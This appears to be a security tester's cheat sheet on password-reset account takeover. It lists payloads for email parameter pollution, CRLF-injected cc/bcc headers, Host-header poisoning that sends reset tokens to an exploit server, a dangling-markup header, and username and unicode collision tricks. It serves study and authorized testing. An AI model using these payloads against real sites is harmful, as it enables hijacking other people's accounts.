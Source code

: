 # Password Reset Via Email Parameter

```
## parameter pollution
email=victim@mail.com&email=hacker@mail.com

## array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

## carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

## separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

# Password Reset Token Leak Via Referrer

1) Request password reset to your email address
2) Click on the password reset link
3) Don't change password
4) Click any 3rd party websites(eg: Facebook, twitter)
5) Intercept the request in Burp Suite proxy
6) Check if the referer header is leaking password reset token.

# Standard HTTP HEADER ATTACKS

1) Use (Intercept first) `Host: arbitrary-exploit-server.com`, `X-Forwarded-Host: arbitrary-exploit-server.com`
2) Look for `https:/arbitrary-exploit-server.com/reset-password?token=TOKEN`

# Leaking Password Reset Token in Response

1) Trigger a password reset request to the email.
2) Inspect the `Server Response` and search for ResetToken - Maybe it is stored in response also.
3) Then use the token in an URL like https://arbitrary.com/reset?resetToken={token}&email={email}.

# Password Reset Via Username Collision

1) Register username identical to the victim's username: "admin ", " admin", " admin ";
2) Request a password reset with your malicious username.
3) Use the token sent to your email and reset the victim password.

# Account takeover due to unicode normalization issue

Try to use same emails, but use a little different symbols, that can be converted the same:

    Victim account: demo@gmail.com
    Attacker account: demⓞ@gmail.com

# If Host header has the problem of not being tested after validation

```
Host: YOUR-LAB-ID.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?
```
